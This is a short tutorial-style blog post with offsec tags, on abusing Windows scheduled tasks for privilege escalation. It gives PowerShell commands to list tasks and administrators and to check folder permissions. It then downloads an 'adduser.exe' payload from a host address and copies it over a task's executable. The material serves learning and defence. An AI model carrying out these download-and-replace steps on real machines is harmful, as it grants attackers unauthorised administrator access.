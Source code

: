 ```yaml
---
layout: post
title: Windows Scheduled Paths
titledate: 09/16/23
tags: ["infosec","offsec", "privesc", "powershell"]
---
```


on windows scheduled tasks are activities that get performed by windows that are meant to be scheduled

these activities can be a variety of things but can be leveraged for our purposes to perform privilege escalation

below are the 3 criteria we must consider when deciding if we can leverage privesc

1. which account executes the task
2. what conditions or triggers are needed for the task to execute
3. when these conditions are met, what actions get executed

if the attack is executed in the context of a current non admin user then we most likely can not escalate privs from it, however, if it is a system or admin acct then we may be able to

let's view the tasks

    PS > schtasks /query /fo LIST /v

as always it will be helpful to know which users are administrators so these cmds are helpful

    PS > net user
    PS > Get-LocalGroupMember Administrators

this will provide us with a load of useful information like, the taskname, the time it is scheduled to run, if it was successful last run, who created it, where it executes from, and what is executing

we can check the permissions on the directory of the task 

    PS > icacls C:\Users\steve\Pictures\mytask.exe

so lets copy our adduser exe over

    PS > iwr -Uri http://192.168.1.1/adduser.exe -Outfile mytask.exe

and then move it to the directory the task executes from

    PS > move .\mytask.exe .\Pictures\

now to get our code to execute we must wait for the next scheduled execution of the task

### TODO: need to write a script to parse the output of the tasks output to be more useful

### NOTE: can try filtering for dirs with perms like C:\Users etc